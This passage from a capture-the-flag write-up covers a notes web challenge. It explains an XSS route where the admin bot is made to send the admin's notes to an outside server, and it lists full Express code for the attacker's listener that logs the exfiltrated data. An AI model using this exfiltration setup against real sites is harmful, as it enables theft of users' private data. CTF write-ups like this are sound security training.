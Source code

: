 Therefore, we can execute script in this page `/api/notes/<NOTE_ID>`. XSS (Cross-Site Scripting) will take place in this challenge.

Initially, I thought that I could take the cookie of the bot then used it to sign in as admin. But I found out that I can't because the cookie sent to the authenticated user via `/login` route has settings:

```javascript
res.cookie("token", token, {
  sameSite: "strict",
  httpOnly: true,
  secure: true,
  maxAge: 3600000, // 1 hour expiration time
});
```

This settings make it impossible to take the cookie and send to my listening server.

I came up with another solution that I don't need to take the cookie, I will force the bot to send the notes of the admin to my listening server.

Firstly, let's create a listening server to get the notes, I use Express to create mine:

```javascript
const express = require("express");
const cors = require("cors");
const path = require("path");
const fs = require("fs").promises;

const app = express();
const port = process.env.PORT || 8000;

// The origin of your front-end application.
// This is the URL that the browser is running on.
const frontendOrigin =
  "https://inst-<YOUR_WEBSITE_ID>-love-notes.chal.crewc.tf";

// Configure CORS to only allow your front-end origin.
// This is a crucial step to fix the error and ensure security.
app.use(
  cors({
    origin: frontendOrigin,
    credentials: true, // Set this to true if your frontend request in cludes credentials
  })
);
app.use(express.json()); // make sure body parser is enabled

app.post("/receive", async (req, res) => {
  try {
    const { payload } = req.body;
    if (typeof payload === "undefined") {
      return res.status(400).json({ error: "missing payload" });
    }

    const line = JSON.stringify(payload) + "\n";
    await fs.appendFile(path.join(__dirname, "out.ndjson"), line, "utf8");

    return res.status(204).end();
  } catch (error) {
    console.error("Error:", error);
    return res.status(500).json({ error: "internal_server_error" });
  }
});

// Start the Express server
app.listen(port, () => {
  console.log(`Proxy server listening at http://localhost:${port}`);
```